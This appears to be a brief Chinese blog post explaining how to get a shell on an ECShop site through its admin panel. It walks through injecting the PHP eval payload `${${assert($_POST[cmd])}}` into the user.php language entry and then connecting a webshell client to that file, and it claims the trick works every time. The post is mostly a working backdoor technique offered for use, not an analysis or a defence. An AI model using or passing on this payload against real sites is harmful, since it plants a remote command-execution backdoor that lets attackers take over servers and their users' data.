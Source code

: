 ```yaml
---
title: "ecshop 后台 getshell"
date: 2018-01-07T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


ecshop 后台 getshell

<!--more-->

模板管理 - 语言项编辑

下拉栏选择 user.php 搜索 用户信息

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/07/1515297913.jpg)

后面加上代码

`${${assert($_POST[cmd])}}`

确认修改

连接 根目录下 user.php

屡试不爽